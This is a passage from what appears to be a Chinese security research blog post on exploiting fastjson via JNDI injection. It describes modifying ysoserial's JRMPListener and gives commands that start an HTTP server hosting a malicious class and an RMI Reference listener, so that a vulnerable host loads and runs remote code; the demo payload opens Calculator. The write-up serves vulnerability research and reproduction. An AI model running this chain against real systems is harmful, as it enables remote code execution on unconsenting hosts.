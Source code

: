 看到这里用JNDI进行数据库连接，并且由于fastjson的特性dataSource是可控的，这就意味着我们可以控制lookup的参数，并向恶意的server发起JNDI连接。根据前文说的原理，我们可以使得主机执行任意代码。

## 0x03 环境复现

### 改造JRMPListener

由于JNDI底层用的都是RMI的东西，所以我们要建立一个绑定了Reference的RMI服务，可以直接改改JRMPListener。

在RMI部分曾经分析过JRMPListener，其返回了ExceptionalReturn，使得构造好的Exception在Client反序列化执行命令。而对于绑定Reference，我们需要修改ExceptionalReturn为NormalReturn并将payloadObject改为ReferenceWrapper

![image-20200205154116235](/images/jndi-with-rmi-20200209/image-20200205154116235-1255889.png)

payloadObject改为ReferenceWrapper

![image-20200205154412920](/images/jndi-with-rmi-20200209/image-20200205154412920-1255889.png)

但是在实际测试时，发现Client请求后不能完全退出。其实我们也可以直接用上面的例子

![image-20200205155851653](/images/jndi-with-rmi-20200209/image-20200205155851653-1255889.png)

不过这里就获取不到是否有访问进来，根据实际的环境取舍吧XD

改造后的已更新到[github](https://github.com/wh1t3p1g/ysoserial)上

```bash
// 开启挂载了evil class文件的HTTP Server
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.PayloadHTTPServer 80 EvilObj "open /System/Applications/Calculator.app"

// 开启RMI Reference Listener
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRefListener 1099 EvilObj http://localhost/

// 或者使用RMIRefListener2，集合了上面两个步骤
java -cp target/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRefListener2 localhost:1099 80 EvilObj "open /System/Applications/Calculator.app"
```
